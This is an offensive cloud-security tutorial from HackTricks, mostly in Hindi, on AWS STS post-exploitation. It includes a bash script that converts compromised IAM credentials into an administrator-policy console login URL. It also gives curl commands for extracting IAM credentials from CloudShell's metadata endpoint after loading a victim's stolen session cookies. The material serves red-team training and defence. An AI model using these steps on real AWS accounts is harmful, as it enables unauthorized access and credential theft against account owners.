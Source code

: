 # AWS - STS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

अधिक जानकारी के लिए:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### From IAM Creds to Console

यदि आप कुछ IAM क्रेडेंशियल प्राप्त करने में सफल रहे हैं, तो आप **वेब कंसोल** तक पहुँचने में रुचि रखते होंगे, निम्नलिखित उपकरणों का उपयोग करके।\
ध्यान दें कि उपयोगकर्ता/भूमिका को **`sts:GetFederationToken`** अनुमति होनी चाहिए।

#### Custom script

निम्नलिखित स्क्रिप्ट डिफ़ॉल्ट प्रोफ़ाइल और एक डिफ़ॉल्ट AWS स्थान (न तो gov और न ही cn) का उपयोग करेगी ताकि आपको एक साइन किया हुआ URL मिल सके जिसका उपयोग आप वेब कंसोल में लॉगिन करने के लिए कर सकते हैं:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

आप **एक वेब कंसोल लिंक उत्पन्न कर सकते हैं** [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
सुनिश्चित करें कि IAM उपयोगकर्ता के पास `sts:GetFederationToken` अनुमति है, या एक भूमिका प्रदान करें जिसे ग्रहण किया जा सके।
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) एक उपकरण है जो विकास वातावरण में AWS क्रेडेंशियल्स को सुरक्षित रूप से स्टोर और एक्सेस करने के लिए है।
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
आप **aws-vault** का उपयोग करके **ब्राउज़र कंसोल सत्र** प्राप्त कर सकते हैं
{% endhint %}

#### कंसोल से IAM क्रेडेंशियल्स तक

[**इस पोस्ट में मूल रूप से खोजा गया**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), यदि आप किसी वेब कंसोल तक पहुंच को समझौता करने में सफल होते हैं (शायद आपने कुकीज़ चुरा लीं और .aws फ़ोल्डर तक पहुंच नहीं कर सके), तो आप **CloudShell** के माध्यम से उस उपयोगकर्ता के लिए कुछ IAM टोकन क्रेडेंशियल्स प्राप्त कर सकते हैं।

CloudShell IAM क्रेडेंशियल्स को **पोर्ट 1338 पर एक अप्रलेखित एंडपॉइंट** के माध्यम से उजागर करता है। पीड़ित से सत्र कुकीज़ को अपने ब्राउज़र में लोड करने के बाद, आप CloudShell पर जा सकते हैं और IAM क्रेडेंशियल्स प्राप्त करने के लिए निम्नलिखित कमांड जारी कर सकते हैं।
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करें।

</details>
{% endhint %}
